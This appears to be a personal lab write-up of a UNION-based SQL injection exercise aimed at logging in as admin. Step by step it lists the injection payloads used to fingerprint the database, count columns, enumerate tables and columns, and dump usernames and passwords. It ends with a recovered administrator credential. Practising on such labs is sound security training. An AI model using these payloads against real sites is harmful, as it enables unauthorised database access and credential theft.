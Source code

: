 # Goal: Login as admin

# Preliminary Work
- Get the SQL Version
    - ' UNION SELECT @@version-- (:x:)
    - ' UNION SELECT version()-- (:x:)
    - [Oracle] ' UNION SELECT BANNER,NULL FROM v$version-- (:x:)
    - UNABLE TO GET VERSION SO I AM GOING IN BLIND 
- Determine number of columns needed for UNION
    - ' ORDER BY (number)--
        - stop when you get an error
    - ' ORDER BY 3-- (:white_check_mark:)
        - Yielded error so we know there are 2 columns
        - ALL tables have 2 columns
        - ![](./pics/213724.png)
- Determine which columns can handle text (to display juicy info)
    - ' UNION SELECT 'a',NULL,NULL,...--
        - Did not dual thus non-Oracle 
    - ' UNION SELECT 'a',NULL-- (:x:)
    - ' UNION SELECT NULL,'a'-- (:white_check_mark:)
        - Only second column supports text (maybe uname and pword in same column?)

# Getting Column Values
- Get list of table names
    - ' UNION SELECT NULL,table_name FROM information_schema.tables--
        - Order matters since only the 2nd column can hold text
- CRTL-F 'user' to find potential tables
    - users (:white_check_mark)
    - ![](./pics/215841.png)
- Get columns for the tables 
    - ' UNION SELECT COLUMN_NAME, DATA_TYPE FROM information_schema.columns WHERE table_name = 'users'--
        - username | password
    - ![](./pics/220147.png)
- Get the column data using string concatenation stuff
    - ' ' UNION SELECT NULL,username || '*' || password FROM users--
        - Need to select two columns AND 1st column cannot hold text
        - * is a separator since characters would blend together otherwise
    - ![](./pics/225112.png)
- Admin Info
    - uname: administrator
    - pword: ln847l6714ivrv9rbv6v






